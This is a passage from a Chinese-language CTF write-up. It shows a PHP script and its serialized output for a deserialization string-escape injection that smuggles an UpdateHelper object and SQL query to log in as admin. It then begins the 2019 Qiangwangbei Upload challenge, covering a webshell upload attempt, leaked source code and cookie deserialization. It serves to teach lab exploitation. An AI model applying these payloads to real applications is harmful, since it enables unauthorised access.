     $a = new Info();
    $a->age = "1";
    $a->nickname = '";s:8:"CtrlCase";O:12:"UpdateHelper":1:{s:3:"sql";O:4:"User":2:{s:3:"age";s:70:"select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?";s:8:"nickname";O:4:"Info":1:{s:8:"CtrlCase";O:6:"dbCtrl":2:{s:4:"name";s:5:"admin";s:8:"password";s:1:"1";}}}}}';
    $b = serialize($a);
    echo $b;
    ?>
    ```

    序列化结果
    ```php
    O:4:"Info":3:{s:3:"age";s:1:"1";s:8:"nickname";s:263:"";s:8:"CtrlCase";O:12:"UpdateHelper":1:{s:3:"sql";O:4:"User":2:{s:3:"age";s:70:"select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?";s:8:"nickname";O:4:"Info":1:{s:8:"CtrlCase";O:6:"dbCtrl":2:{s:4:"name";s:5:"admin";s:8:"password";s:1:"1";}}}}}";s:8:"CtrlCase";N;}
    ```

    *是会被替换成hacker的，这样nickname的实际长度变长，但是s:263是固定的，所以后台一直认定nickname就是263个字符长。如果*的数量够多，那么我们后面的s:8:"CtrlCase";O:12:"UpdateHelper"就能逃逸出来，成功注入了一个UpdateHelper类。

    payload 的长度是263，* 和hacker相差5个字符，into和hacker相差2个字符，union和hacker相差1个字符。所以一共要有个into，1个union和52个 *

    然后把构造好的payload post传入后台，如果页面出现10-0，则表示执行成功，去登录界面登录，用户名admin，密码随意，拿到flag。

#### 强网杯 2019 Upload(文件上传)

1. 刚打开发现是登录注册页面，因为题目提示upload所以猜测应该和sql注入没关系，所以直接注册登录，发现了文件上传点，一开始直接传了一个木马，没成功，传了一个图片马，成功了，但是没法执行，后台回修改文件名
2. 没思路了，就想着扫一下目录吧，发现了`www.tar.gz`,源码泄露，有`.idea`文件，用phpstorm打开(仅打开当前项目所在文件夹)，有两个断点提示。
    ![断点1](./image/index.png)
    ![断点2](./image/register.png)
    审计第一处断点所在文件，发现会利用cookie反序列化，所以这应该是一个利用点

    application/web/controller/Index.php 里的：
    首先访问大部分页面例如 `index` 都会调用 `login_check` 方法。
    该方法会先将传入的用户 `Profile` 反序列化，而后到数据库中检查相关信息是否一致。

    `application/web/controller/Register.php` 里的：
    `Register` 的析构方法，判断注没注册，没注册的给调用 `check` 也就是 `Index` 的 `index` 方法，即跳到主页。
